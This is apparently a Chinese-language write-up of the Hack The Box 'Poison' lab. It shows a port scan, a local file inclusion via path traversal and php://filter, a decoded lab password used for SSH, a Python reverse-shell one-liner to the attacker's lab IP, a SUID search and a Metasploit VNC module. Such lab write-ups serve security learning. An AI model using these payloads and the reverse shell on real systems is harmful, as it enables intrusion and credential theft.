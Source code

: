 ```yaml
---
categories:
- training
tags: 
    - training
---
```


#### 1. 端口扫描
ip: 10.10.10.84
```
22/tcp   open  ssh
80/tcp   open  http
5802/tcp open  vnc-http-2
5902/tcp open  vnc-2
5903/tcp open  vnc-3
6002/tcp open  X11:2
6003/tcp open  X11:3
```
嗯，确认是linux系统
#### 2. web探测

![2](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/0928/2.PNG)
一看到浏览器上的URL：`file=xxx`，就富有职业精神的输入`../../../../../etc/passwd`

![啊哈~一个文件包含](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/0928/3.PNG)

> Info1——机器上普通用户名称:
 hast:*:845:845:HAST unprivileged user:/var/empty:/usr/sbin/nologin
nobody:*:65534:65534:Unprivileged user:/nonexistent:/usr/sbin/nologin
_tss:*:601:601:TrouSerS user:/var/empty:/usr/sbin/nologin
messagebus:*:556:556:D-BUS Daemon User:/nonexistent:/usr/sbin/nologin
avahi:*:558:558:Avahi Daemon User:/nonexistent:/usr/sbin/nologin
charix:*:1001:1001:charix:/home/charix:/bin/csh

运行：`http://10.10.10.84/browse.php?file=php://filter/convert.base64-encode/resource=config.php`

>Info2——文件路径：
Warning: include(php://filter/convert.base64-encode/resource=config.php): failed to open stream: operation failed in /usr/local/www/apache24/data/browse.php on line 2
Warning: include(): Failed opening 'php://filter/convert.base64-encode/resource=config.php' for inclusion (include_path='.:/usr/local/www/apache24/data') in /usr/local/www/apache24/data/browse.php on line 2

于是用php协议，访问browse.php，用hackbar解码一下。
![4](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/0928/4.PNG)
本来想用dirbuster扫描下存在的文件，再用文件包括去查看敏感文件。。。
但是，这个实验中，主页面上有一个listfiles.php，访问以后，直接指出了一个pwdbackup.txt。

![5](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/0928/5.PNG)
上面说这个密码很安全，它被加密了13次。真的还能出什么问题。
然后我一看，我去，base64编码还好意思说安全，加密13次又有什么意义吗？
我还是太菜，手动把密文的\n去掉，然后再解码，很多次解码后，密码为：`Charix!2#4%6&8(0`

方法二：
sed -i 's/\n//g' pwdbackup.txt
>Info3——口令
Charix!2#4%6&8(0

- Trying:
`ssh charix@10.10.10.84`

charix/Charix!2#4%6&8(0
**ssh登陆成功**
![6](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/0928/6.PNG)

#### **3.提权**

/home/charix目录下有三个文件，一个flag；一个secret，是空文件；还有一个secret.zip。
那么需要解压一下，tar -zxvf secret.zip
提示`x secretEnter passphrase:`
那么需要输入密码，然后尝试错误密码，会反复提示`Enter passphrase`。
通过Info3口令，成功解压。
解压后是secret文件，类型为：`secret: Non-ISO extended-ASCII text, with no line terminators`

用cat secret，显示为乱码。

![](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/0928/7.PNG)

![vi secret](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/0928/8.png)

- sudo、gcc----------->command not found
- su             ------> Sorry
- uname -a查看内核版本，应该不是内核漏洞提权。
```
FreeBSD Poison 11.1-RELEASE FreeBSD 11.1-RELEASE #0 r321309: Fri Jul 21 02:08:28 UTC 2017     root@releng2.nyi.freebsd.org:/usr/obj/usr/src/sys/GENERIC  amd64
```
- `nc -l 999` -------> nc: Permission denied

- Trying（SUID提权，[参考](https://pentestlab.blog/tag/find/)）。
`find / -user root -perm -4000 -exec ls -ldb {} \;`
执行结果中，没有namp、vim、find等等可以提权的程序。

有意思的是，在连接过程中，ssh命令面板突然不灵了，无法输入任何命令。
重新连进去以后，我的readme.txt多了一行。。。看来遇到同道中人了。

- Trying：测试nc，用服务端连接kali。成功连接。
![](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/0928/%E6%8D%95%E8%8E%B7%202.PNG)

不是吧。。又连不上了，第一次遇到被人挤下线。

![](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/0928/%E6%8D%95%E8%8E%B7%203.PNG)

查看一下进程这些都是远程连进来的。。。
![](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/0928/%E6%8D%95%E8%8E%B7%204.PNG)

- Trying：太卡了，弹一个python shell。
本地：`nc -lvp 1234`
服务器：`python ‐c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.198",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","‐i"]);'`

- Trying :
 python -m SimpleHTTPServer 888
```
Traceback (most recent call last):
  File "/usr/local/lib/python2.7/runpy.py", line 174, in _run_module_as_main
    "__main__", fname, loader, pkg_name)
 。。。此处省略几十行
socket.error: [Errno 13] Permission denied
```
- Trying：

![找到网站所在目录](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/0928/%E6%89%BE%E5%88%B0%E7%BD%91%E7%AB%99%E6%89%80%E5%9C%A8%E7%9B%AE%E5%BD%95.png)

![3权限不够](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/0928/3%E6%9D%83%E9%99%90%E4%B8%8D%E5%A4%9F.png)

- Trying:
尝试vnc远程命令执行
![查看开放端口](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/0928/9.PNG)

![netstat](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/0928/4netstat.PNG)

![尝试vnc远程命令执行](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/0928/%E6%8D%95%E8%8E%B7%205.PNG)

```
use exploit/multi/vnc/vnc_keyboard_exec
set RHOST
set PASSWORD
```

试了好多密码，包括里面secret文件。失败

#### 2018.9.28.总结
[writeup参考](http://www.hackingarticles.in/hack-the-box-poison-walkthrough/)

[SSH原理与运用（二）：远程操作与端口转发](http://www.ruanyifeng.com/blog/2011/12/ssh_port_forwarding.html)
![01](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/0928/01.PNG)

**通过绑定本地和远程的端口，就可以用vncviewer命令，使用密钥，开启vnc窗口**
vncviewer  -passwd secret  127.0.0.1:5901


